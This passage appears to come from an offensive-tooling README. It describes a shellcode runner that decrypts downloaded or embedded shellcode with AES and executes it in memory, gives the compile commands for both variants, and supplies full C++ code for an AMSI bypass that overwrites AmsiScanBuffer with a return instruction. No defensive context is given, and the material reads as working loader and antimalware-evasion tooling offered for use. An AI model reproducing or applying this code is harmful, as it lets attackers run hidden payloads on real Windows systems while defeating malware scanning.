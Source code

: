 2. **Execution Flow**:
   - The downloaded or embedded key and IV are used for AES decryption, and the decrypted shellcode is loaded into memory and executed using `VirtualAlloc`, `RtlMoveMemory`, and `CreateThread`.

3. **Compile with Embedded Option**:
   - To compile using embedded shellcode and key:
     ```bash
     g++ -DUSE_EMBEDDED -o ShellcodeRunner ShellcodeRunner.cpp -lssl -lcrypto -lcurl
     ```

4. **Compile with Download Option**:
   - To compile without embedding (for downloading):
     ```bash
     g++ -o ShellcodeRunner ShellcodeRunner.cpp -lssl -lcrypto -lcurl
     ```
This setup allows you to either hardcode the shellcode and keys using a `.h` file or download them dynamically, based on how you compile the program.


### C++ AMSI Bypass Function
```cpp
#include <windows.h>
#include <iostream>

void BypassAMSI() {
    // Get a handle to amsi.dll
    HMODULE hAMSI = LoadLibraryA("amsi.dll");
    if (hAMSI == NULL) {
        std::cerr << "Failed to load amsi.dll" << std::endl;
        return;
    }

    // Find the address of the AmsiScanBuffer function
    FARPROC pAmsiScanBuffer = GetProcAddress(hAMSI, "AmsiScanBuffer");
    if (pAmsiScanBuffer == NULL) {
        std::cerr << "Failed to find AmsiScanBuffer" << std::endl;
        return;
    }

    // Modify the first byte of AmsiScanBuffer to return immediately
    DWORD oldProtect;
    VirtualProtect(pAmsiScanBuffer, 1, PAGE_EXECUTE_READWRITE, &oldProtect);
    *(BYTE*)pAmsiScanBuffer = 0xC3;  // C3 is the opcode for "ret" in x86 assembly
    VirtualProtect(pAmsiScanBuffer, 1, oldProtect, &oldProtect);

    std::cout << "AMSI Bypass applied" << std::endl;
}
```

### How it works:
- This function loads `amsi.dll` and locates the `AmsiScanBuffer` function.
- It patches the function by overwriting its first byte with `0xC3`, which is the opcode for a return (`ret`) instruction, essentially disabling the function.
  